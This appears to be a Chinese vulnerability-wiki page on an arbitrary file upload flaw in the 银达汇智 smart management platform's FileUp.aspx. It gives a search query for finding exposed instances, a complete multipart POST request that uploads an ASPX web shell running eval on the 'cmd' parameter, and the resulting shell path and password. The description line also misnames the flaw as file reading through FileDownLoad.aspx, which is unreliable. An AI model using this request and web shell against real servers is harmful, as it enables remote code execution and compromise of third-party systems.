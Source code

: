 # 银达汇智 智慧综合管理平台 FileUp.aspx 任意文件上传漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

<a-checkbox checked>银达汇智 智慧综合管理平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"汇智信息" && title=="智慧综合管理平台登入"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1627914977251-450973a6-e847-454b-817b-efa35fdc4aed.png)

文件上传请求包

```bash
POST /Module/FileUpPage/FileUp.aspx?orgid=1&type=NNewsContent HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 337
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=62907949903a4c499178971c9dab4ad9

--62907949903a4c499178971c9dab4ad9
Content-Disposition: form-data; name="Filedata"; filename="abc.aspx"
Content-Type: image/jpeg

<%@ Page Language="Jscript"%><%Response.Write(FormsAuthentication.HashPasswordForStoringInConfigFile("abc", "MD5").ToLower());eval(Request.Item["cmd"],"unsafe");%>
--62907949903a4c499178971c9dab4ad9--
```

![img](/assets/PeiQi-Wiki/img/1629368451848-7ecbcd3e-82cc-4608-b9a9-a312826248ea.png)

响应包会返回文件名，上传的目录为

```bash
/imgnews/imgcontent/1/xxxxxxxxxx.aspx
```

![img](/assets/PeiQi-Wiki/img/1629368525052-fffda86a-30fa-4dc0-a3a0-537a0be5b5c3.png)

出现如图成功上传木马，密码为 `cmd`